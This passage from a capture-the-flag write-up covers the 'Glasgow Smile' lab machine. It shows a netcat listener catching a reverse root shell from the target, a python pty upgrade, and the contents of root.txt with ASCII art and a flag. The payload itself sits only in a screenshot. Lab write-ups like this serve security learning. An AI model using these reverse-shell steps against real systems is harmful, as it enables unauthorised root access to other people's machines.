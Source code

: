 ```console
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ vi .trash_old
```

![](/assets/images/glasgowsmile/screenshot-8.png)

We Then set up a netcat listener and wait a moment to receive our root shell.

```console
root@kali:~$ nc -vlnp 1337
listening on [any] 1337 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.165] 40602
python -c "import pty; pty.spawn('/bin/bash')"
root@glasgowsmile:~# ls
ls
root.txt  whoami
root@glasgowsmile:~# cat root.txt
cat root.txt
  ▄████ ██▓   ▄▄▄       ██████  ▄████ ▒█████  █     █░     ██████ ███▄ ▄███▓██▓██▓   ▓█████ 
 ██▒ ▀█▓██▒  ▒████▄   ▒██    ▒ ██▒ ▀█▒██▒  ██▓█░ █ ░█░   ▒██    ▒▓██▒▀█▀ ██▓██▓██▒   ▓█   ▀ 
▒██░▄▄▄▒██░  ▒██  ▀█▄ ░ ▓██▄  ▒██░▄▄▄▒██░  ██▒█░ █ ░█    ░ ▓██▄  ▓██    ▓██▒██▒██░   ▒███   
░▓█  ██▒██░  ░██▄▄▄▄██  ▒   ██░▓█  ██▒██   ██░█░ █ ░█      ▒   ██▒██    ▒██░██▒██░   ▒▓█  ▄ 
░▒▓███▀░██████▓█   ▓██▒██████▒░▒▓███▀░ ████▓▒░░██▒██▓    ▒██████▒▒██▒   ░██░██░██████░▒████▒
 ░▒   ▒░ ▒░▓  ▒▒   ▓▒█▒ ▒▓▒ ▒ ░░▒   ▒░ ▒░▒░▒░░ ▓░▒ ▒     ▒ ▒▓▒ ▒ ░ ▒░   ░  ░▓ ░ ▒░▓  ░░ ▒░ ░
  ░   ░░ ░ ▒  ░▒   ▒▒ ░ ░▒  ░ ░ ░   ░  ░ ▒ ▒░  ▒ ░ ░     ░ ░▒  ░ ░  ░      ░▒ ░ ░ ▒  ░░ ░  ░
░ ░   ░  ░ ░   ░   ▒  ░  ░  ░ ░ ░   ░░ ░ ░ ▒   ░   ░     ░  ░  ░ ░      ░   ▒ ░ ░ ░     ░   
      ░    ░  ░    ░  ░     ░       ░    ░ ░     ░             ░        ░   ░     ░  ░  ░  ░



Congratulations!

You've got the Glasgow Smile!

JKR{68028b11a1b7d56c521a90fc18252995}


Credits by

mindsflee
```

